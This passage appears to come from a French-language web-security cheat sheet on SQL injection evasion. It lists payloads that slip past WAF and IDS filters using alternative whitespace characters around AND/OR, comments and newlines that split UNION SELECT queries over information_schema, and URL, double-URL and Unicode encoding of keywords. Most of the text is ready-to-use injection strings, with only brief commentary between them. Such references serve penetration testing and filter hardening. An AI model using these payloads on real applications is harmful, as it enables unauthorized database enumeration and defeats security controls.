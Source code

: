 **Exemples :**
UNION(SELECT(myColumn)FROM(myTable))

### Caractères intermédiaires pour AND/OR

|     |     |
| --- | --- |
| 20  | Space |
| 2B  | +   |
| 2D  | –   |
| 7E  | ~   |
| 21  | !   |
| 40  | @   |

**Exemples :**
SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))

### Obscurcissement via les commentaires

Les commentaires permettent également de déstructurer la requête, avec pour objectif de bypasser les WAF/IDS. L’utilisation du caractère de nouvelle ligne permet cela.

**Exemples :**
1'#
AND 0--
UNION# I am a comment!
SELECT@tmp:=table_name x FROM--
`information_schema`.tables LIMIT 1#
Version avec URLEncode :

1'%23%0AAND 0--%0AUNION%23 I am a comment!%0ASELECT@tmp:=table_name x FROM--%0A`information_schema`.tables LIMIT 1%23

Les fonctions peuvent également être obscurcies :
VERSION/**/%A0 (/*comment*/)

### Encodage

Le transcodage permet de bypasser certains WAF/IDS.

#### URL Encoding :

SELECT %74able_%6eame FROM information_schema.tables;

#### Double URL Encoding :

SELECT %2574able_%256eame FROM information_schema.tables;

#### Unicode Encoding :

SELECT %u0074able_%u6eame FROM information_schema.tables;
